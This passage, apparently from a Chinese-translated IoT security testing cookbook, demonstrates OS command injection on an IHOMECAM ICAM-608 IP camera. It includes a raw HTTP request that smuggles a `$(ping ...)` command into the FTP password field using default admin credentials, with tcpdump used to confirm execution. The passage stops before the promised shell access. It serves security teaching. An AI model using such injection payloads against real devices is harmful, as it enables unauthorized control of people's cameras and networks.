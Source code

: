此外，如果您想要通过 ZAP 或 Burp Suite 来提高您的网络应用程序测试技能，请查看 OWASP 的易受攻击的 Web 应用程序目录项目，网址为[`www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project`](https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project)。

# 利用命令注入

在嵌入式系统中，OS 命令注入是一种常见的漏洞，通常通过 Web 界面或调试页面留下来自开发固件构建的方式来执行任意操作系统命令。用户通过 Web 界面在 Web 服务参数中提供操作系统命令，以执行 OS 命令。动态且未经适当清理的参数容易受到此漏洞的利用。通过执行 OS 命令的能力，攻击者可以上传恶意固件，更改配置设置，获得对设备的持久访问权限，获取密码，攻击网络中的其他设备，甚至锁定合法用户对设备的访问。在这个步骤中，我们将演示如何利用命令注入来获取对设备的 shell 访问权限。

# 准备工作

对于这个步骤，我们将使用 tcpdump、Burp Suite 和一个易受攻击的 IHOMECAM ICAM-608 IP 摄像头。Tcpdump 包含在大多数*Nix 操作系统中，但也可以使用 Wireshark 来观察数据包。

# 如何做...

在嵌入式 Web 应用程序中查找可注入命令的页面的过程相当简单。我们要检查的应用程序中的第一个地方是使用系统命令的诊断页面，比如`ping`或`traceroute`，还有守护程序的配置设置页面，比如 SMB、PPTP 或 FTP。如果我们已经获得了固件或者访问了目标设备的控制台，最好是静态分析设备执行的易受攻击脚本和函数，并验证通过动态分析发现的潜在发现：

1.  让我们来看一下我们目标 IP 摄像头的配置菜单设置，以确定可能存在漏洞的页面：

![](img/9675cb0f-af21-474c-8094-1b0c3c4f8d1d.png)

1.  可选择的页面并不多，但我们看到了邮件服务和 FTP 服务设置页面。这些页面可能会将系统命令输入操作系统以执行。让我们首先检查 FTP 服务设置页面，并尝试通过 Burp Suite 操纵参数值以执行系统命令：

![](img/e6c1d0f6-2898-4872-9721-cd5ed3b1054c.png)

1.  在尝试在`pwd`参数中发送有效负载`$(ping%20192.168.1.184)`时，应用程序似乎会剥离字符，如下面的屏幕截图所示：

![](img/81a56e3b-bea5-4e4d-b597-4c9d9b98a8b8.png)

1.  使用基本命令，比如`ping`，将有效负载发送到我们的主机计算机，这让我们知道我们的命令已成功执行。为了观察 ping 是否已执行，设置`tcpdump`来监听来自我们目标 IP 摄像头的 ICMP 数据包，使用以下命令：

```
$ tcpdump host 192.168.1.177 and icmp
```

1.  使用 Burp Suite 的 Repeater，我们可以更改数值并绕过 IP 摄像头执行的客户端检查。使用以下请求，我们可以看到应用程序接受了我们的更改，并需要根据 HTTP 响应刷新`ftp.htm`页面：

```
RAW HTTP Request  
GET 
/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(ping%20192.168.1.184)&dir=/&mode=0&upload_interval=0 HTTP/1.1 

RAW HTTP Response 
HTTP/1.1 200 OK 
Server: GoAhead-Webs 
Content-type: text/html 
Cache-Control:no-cache 
Content-length: 194 
Connection: close 

<html> 

<head> 

<title></title> 

<meta http-equ"v="Cache-Cont"ol" conte"t="no-cache, must-reva lid"te"><meta http-equ"v="refr"sh" conte"t="0; url=/ftp."tm" /> 
```